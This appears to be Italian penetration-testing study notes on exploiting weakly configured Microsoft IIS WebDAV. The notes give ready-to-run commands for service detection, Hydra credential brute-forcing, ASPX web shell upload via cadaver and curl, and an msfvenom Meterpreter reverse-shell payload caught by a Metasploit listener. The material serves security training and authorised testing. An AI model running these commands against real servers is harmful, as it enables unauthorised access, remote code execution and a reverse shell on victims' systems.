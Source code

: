 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su Microsoft IIS. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## 1 – Rilevazione del servizio WebDAV

`nmap -p80,443 --script=http-enum <IP>` ⟶ lo script individua directory WebDAV note. <br>
Dopo aver confermato la presenza di WebDAV, possiamo testare il suo comportamento con: <br>
`davtest -url http://<IP>/webdav` ⟶ sonda metodi (PUT, MKCOL, PROPFIND) e verifica upload se non é protetta da password. <br>
`curl -X OPTIONS http://<IP>/webdav -i` ⟶ elenca i metodi HTTP; se `PUT` è presente, è vulnerabile. <br>

---

## 2 – Brute‑force credenziali (opzionale)

Una volta confermata la vulnerabilità, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
`hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav` <br>

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>

---

## 3 – Verifica upload con **davtest**

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest: <br>
`davtest -auth <user>:<pass> -url http://<IP>/webdav` ⟶ stessa prova ma autenticata. <br>

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**

`cadaver http://<IP>/webdav` ⟶ client WebDAV interattivo. <br>
`put C:\\webshell\\cmd.aspx` ⟶ carica la web‑shell ASPX. <br>

Tutte le web shells disponibili su kali sono visualizzabili al path 
`/usr/share/webshells`

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:

`curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` ⟶ carica shell ASPX. <br>

e tramite il metodo put: <br>
`put </usr/share/webshells/webShellDaUsare>`

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx` <br>

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit

`use multi/handler` ⟶ modulo listener generico. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ definisce il payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata nel payload. <br>
`run` ⟶ avvia il listener in attesa della connessione. <br>

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo: <br>
`exploit/windows/iis/iis_webdav_upload_asp`

---
